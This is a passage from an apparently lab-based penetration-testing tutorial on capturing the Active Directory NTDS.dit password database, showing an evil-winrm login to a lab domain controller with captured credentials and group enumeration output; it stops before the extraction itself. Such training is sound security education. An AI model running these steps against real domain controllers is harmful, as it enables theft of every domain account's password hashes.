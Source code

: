 It can be useful to know what might have been left behind by an attack. Knowing this can make our remediation recommendations more impactful and valuable for the client we are working with. On any Windows operating system, an admin can navigate to `Event Viewer` and view the Security events to see the exact actions that were logged. This can inform decisions to implement stricter security controls and assist in any potential investigation that might be involved following a breach.

Once we have discovered some credentials, we could proceed to try to gain remote access to the target domain controller and capture the NTDS.dit file.

## Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain similar to the technique we covered in this module's `Attacking SAM` section. As we practice this technique, consider the importance of protecting AD and brainstorm a few ways to stop this attack from happening.

### **Connecting to a DC with Evil-WinRM**

We can connect to a target DC using the credentials we captured.

```shell-session
$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Evil-WinRM connects to a target using the Windows Remote Management service combined with the PowerShell Remoting Protocol to establish a PowerShell session with the target.

### **Checking Local Group Membership**

Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:

```shell-session
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
```